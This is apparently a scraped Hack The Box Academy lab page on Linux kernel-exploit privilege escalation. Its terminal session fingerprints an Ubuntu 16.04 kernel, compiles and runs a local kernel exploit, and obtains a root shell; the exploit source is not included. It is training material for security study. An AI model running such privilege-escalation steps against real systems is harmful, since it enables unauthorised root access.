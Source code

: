 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/467
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 467
// Section Title: Kernel Exploits
// Page Title: Hack The Box - Academy
// Page Number: 20
-->

# Kernel Exploits

**Module Name:** Linux Privilege Escalation **Page Number:** 20

#### 

#### LINUX PRIVILEGE ESCALATION

# Kernel Exploits

## Kernel Exploit Example

``` shell-session
ndefstathiou@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

``` shell-session
ndefstathiou@htb[/htb]$ cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
```

``` shell-session
ndefstathiou@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

``` shell-session
ndefstathiou@htb[/htb]$ ./kernel_exploit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell
```

``` shell-session
root@htb[/htb]# whoami

root
```

# 

# 

#### Questions

####